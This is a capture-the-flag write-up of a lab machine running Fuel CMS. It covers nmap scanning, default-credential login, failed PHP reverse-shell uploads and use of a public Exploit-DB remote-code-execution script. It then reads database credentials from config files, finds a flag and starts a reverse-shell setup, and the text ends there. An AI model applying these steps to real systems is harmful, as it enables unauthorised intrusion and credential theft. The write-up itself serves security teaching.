# IGNITE

## The Background

[Fuel Web](https://www.getfuelcms.com/)  

[Fuel GIT](https://github.com/daylightstudio/FUEL-CMS)

Fuel is based on PHP.

## NMAP

### Basic Scan  

`:> nmap -Pn -sV -O 10.201.126.242`  

PORT   STATE SERVICE VERSION  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  

### Vulnerability Scan

`:> nmap --script vuln 10.6.15.233`  

  

### Target Revealed Ports

`:> nmap 10.6.15.233 -p 3390,5901 -Pn -sV --script vuln`  

  

## Visit the Page  

A number of potentially useful instructions  

Default installation directory:  
  

Software and location of the database:  
  

Instructions which, if followed, make certain directories very useful for exploitation activities:  
  

A place to look for hardcoded encryption keys; The potential for a directory above the web root that becomes vulnerable to traversal atacks.  
  

Finally, default credentials  
  

### Check robots.txt  

`http://10.201.126.242/robots.txt`  

Webcrawlers are prevented from scanning the FUEL admin portal, unless the webcrawler ignores the robots.txt contents.  
  

### Visit the FUEL admin portal  

Use the default credentials to log into the portal  
Change the password now or later...  

  

### Upload a reverse shell

It's already known that Fuel is based on PHP.

Grab a web shell from Kali's resources.  

  

Edit the shell to add the Attacker IP and port.  

  

Attempt, and fail, to upload the php reverse shell.  

  

Change the file extension in an attempt to get around the extension checks.  

  

Failed to upload a second time.  

 

Try additional extension including: php1, php2, and php3.

Nothing worked.

## Available Exploits

`:> searchsploit FUEL`  

Several options exist  

  

Copy the chosen exploit to a chosen location, in this case the /tmp folder.  

`:> cp /usr/share/exploitdb/exploits/php/webapps/50477.py /tmp/ignite/50477.py`  

Examine the code. Instantiating the script requires a '-u' or '--url' parameter and requires that 'http' is present in the url parameter.  

````python
def get_arguments():
        parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[>

        parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

        parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

        args = parser.parse_args()

        if len(sys.argv) <=2:
                parser.print_usage()
                sys.exit()

        return args


args = get_arguments()
url = args.url

if "http" not in url:
        sys.stderr.write("Enter vaild url")
        sys.exit()

````  

## Initial Access  

Note: A change in the target (victim) machine due to a restart of the remote target.

`:> pythohn3 50477.py -u http://10.201.116.158`

Success is identified when the exploit provides a command input prompt.  

  

Test a few commands. 

  

### Recon and first flag

Based on the instructions identified on the webpage, identify potential exploit points. 

`:> cat .htaccess`  doesn't reveal anything valuable

  

`:> cat composer.json`  

Potential additional credentials: "mikey179" or "mikey179/vfsStream"  
  

  


`:> cat fuel/application/config/database.php` has a default username and password  

 

`:> cat fuel/application/config/config.php | grep encryption`  

No encryption key is set  

  

Traverse directories to find the first flag  

`:> ls -alh ../`  

  

`:> ls -alh ../../`  

  

`:> ls -alh ../../../`  

  

`:> cat ../../../home/www-data/flag.txt`
 
  

## Privilege escalation  

attempt to use the default password from the database to switch users

`:> su root` with password "mememe"  

Didn't work  

  

### Upload Reverse Shell  

verify attacker machine ip address  

`:> ip addr show`  

  

Use the same shell that failed to upload earlier in the process.  



Ensure Attacker IP is in the reverse shell:  

  

Use TMUX and split the screen to make working on both machines simpler.  

`:> tmux` then `ctrl + b` then `"`
  


